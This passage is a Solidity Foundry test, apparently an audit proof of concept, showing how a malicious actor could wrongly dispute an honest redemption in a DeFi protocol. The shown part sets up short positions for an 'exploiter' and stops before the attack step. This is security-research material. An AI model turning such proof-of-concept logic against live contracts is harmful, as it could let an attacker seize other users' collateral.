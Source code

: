 ```solidity
        vm.prank(owner);
        diamond.setInitialCR(asset, 170);
        initialCR = diamond.getAssetStruct(asset).initialCR;
    }

    function createCustomLimitShort(address shorter, uint80 price, uint88 ercAmount, uint16 cr) private {
        uint256 convertedCR = (uint256(cr) * 1 ether) / C.TWO_DECIMAL_PLACES;
        depositEth(shorter, price.mulU88(ercAmount).mulU88(convertedCR));
        uint16[] memory shortHintArray = setShortHintArray();
        MTypes.OrderHint[] memory orderHintArray = diamond.getHintArray(asset, price, O.LimitShort, 1);
        vm.prank(shorter);
        diamond.createLimitShort(asset, price, ercAmount, orderHintArray, shortHintArray, cr);
    }

    function proposeRedemption(address account, uint88 redemptionAmount, address shorter, uint8 shortId) private {
        depositEth(account, MAX_REDEMPTION_FEE);
        MTypes.ProposalInput[] memory proposalInputs = new MTypes.ProposalInput[](1);
        proposalInputs[0] = MTypes.ProposalInput({shorter: shorter, shortId: shortId, shortOrderId: 100}); // shortOrderId doesn't matter here
        depositUsd(account, redemptionAmount);

        vm.prank(account);
        diamond.proposeRedemption(asset, proposalInputs, redemptionAmount, MAX_REDEMPTION_FEE);
    }

    // This shows how a redemptioner can act correctly but still be disputed by a malicious actor
    function test_decreaseCollateral_poc_1() public {
        address exploiter = makeAddr("exploiter");
        address buyer = makeAddr("buyer");
        address randomSeller = makeAddr("randomSeller");
        address randomRedemptioner = makeAddr("randomRedemptioner");
        address randomRedemptioner2 = makeAddr("randomRedemptioner2");
        address randomRedemptioner3 = makeAddr("randomRedemptioner3");
        address randomRedemptioner4 = makeAddr("randomRedemptioner4");

        // 1. create 5 different Short Record positions
        // # Exploiter's Short Record id: 2 - exploiter large position
        {
            createCustomLimitShort(exploiter, DEFAULT_PRICE, DEFAULT_AMOUNT * 10, 400); // CR 4X
            fundLimitBidOpt(DEFAULT_PRICE, DEFAULT_AMOUNT * 10, buyer);
        }

        // # Exploiter's Short Record id: 3
        {
            createCustomLimitShort(exploiter, DEFAULT_PRICE, DEFAULT_AMOUNT, 1000); // CR 10X
            fundLimitBidOpt(DEFAULT_PRICE, DEFAULT_AMOUNT, buyer);
        }

        // # Random seller's Short Record id: 2
        {
            createCustomLimitShort(randomSeller, DEFAULT_PRICE, DEFAULT_AMOUNT, 410); // CR 4.1X
            fundLimitBidOpt(DEFAULT_PRICE, DEFAULT_AMOUNT, buyer);
        }

        // # Random seller's Short Record id: 3
        {
            createCustomLimitShort(randomSeller, DEFAULT_PRICE, DEFAULT_AMOUNT, 415); // CR 4.15X
            fundLimitBidOpt(DEFAULT_PRICE, DEFAULT_AMOUNT, buyer);
        }

```